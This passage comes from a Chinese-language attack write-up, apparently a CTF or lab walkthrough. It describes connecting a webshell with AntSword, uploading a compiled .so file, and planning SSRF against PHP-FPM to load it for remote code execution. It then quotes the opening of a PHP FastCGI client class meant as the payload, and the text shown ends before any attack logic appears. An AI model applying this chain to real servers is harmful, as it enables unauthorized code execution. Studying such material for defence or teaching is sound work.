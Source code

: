 然后我们用蚁剑进行连接，再将编译好的so文件直接拖上去，简简单单

![image-20241108205928812](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082059852.png)

接下来就是想办法SSRF打FPM来挂载so文件实现RCE，可以找到一个直接攻击的Payload，修改一下关键配置：

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
```